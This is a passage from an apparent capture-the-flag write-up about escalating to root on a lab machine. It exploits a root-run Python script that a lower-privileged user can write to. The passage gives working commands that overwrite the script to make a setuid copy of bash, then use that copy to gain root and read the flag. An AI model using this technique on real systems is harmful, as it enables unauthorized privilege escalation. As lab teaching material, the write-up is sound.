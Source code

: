 And content of `test.txt` created by this script.
```
cat /scripts/test.txt
```
```
testing 123!
```

Looking at all this, we can draw the following conclusion: as only `root` has permission to write to `test.txt` and as this file is being constantly updated (you could double check this with `ls -l --full-time /scripts/test.txt`) this would mean that `root` user is periodically running `/scripts/test.py`. What is important is that `scriptmanager` user has permissions to modify this script! And we will exploit this vulnerability, by making `test.py` creating a root shell.

```
cat <<EOF> /scripts/test.py
import os;
os.system("cp /bin/bash /tmp/root_shell && chmod +s /tmp/root_shell")
EOF
```

And after ~1 minute we should have `/tmp/root_shell` ready.
```
ls -l /tmp/root_shell
```
```
-rwsr-sr-x 1 root root 1037528 Feb 12 13:45 /tmp/root_shell
```

All that is left is to use it and grab root flag.
```
/tmp/root_shell -p
id
uid=1001(scriptmanager) gid=1001(scriptmanager) euid=0(root) egid=0(root) groups=0(root),1001(scriptmanager)
cat /root/root.txt
********************************
```